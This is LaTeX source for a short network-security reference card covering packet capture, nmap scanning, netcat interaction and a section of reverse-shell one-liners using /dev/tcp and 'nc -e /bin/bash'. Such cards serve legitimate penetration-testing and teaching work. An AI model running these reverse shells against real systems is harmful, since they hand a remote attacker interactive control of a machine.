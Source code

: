 \documentclass{refcard}
\begin{document}
\begin{ldesc}
	  \$ wireshark
	              \$ tshark -i  -f 
	              \$ tshark -D
	            \$ tshark -i wlan0 -f "port 80"
	                \$ man pcap-filter
	      \$ tcpdump
\end{ldesc}

\subsection{Active scanning}

\begin{ldesc}
	           \$ nmap [-sV -O -p ] 
	      \$ nmap [-sn] 192.168.0.*
	      \$ nslookup -query=txt 
	  \$ dig \I{[@srv]} 
\end{ldesc}

\subsection{Interacting}

\begin{ldesc}
	        \$ netcat host port
	     \$ ncat host port
	 \$ telnet host port
\end{ldesc}


\subsection{Reverse shell / Connect back}

\begin{ldesc}
	 client\$ netcat -vlp 1337
	     \$ sh >\& /dev/tcp/client/1337 0>\&1
	\li[\ \ (colored)]       \$ bash -i >\& /dev/tcp/client/1337 0>\&1
	    \$ netcat -e /bin/sh localhost 1337
	\li[\ \ (colored)]       \$ nc -e "/bin/bash -i" localhost 1337
\end{ldesc}

\pagebreak

\section{Keyboard Scan Codes (US QWERTY)}
\end{document}
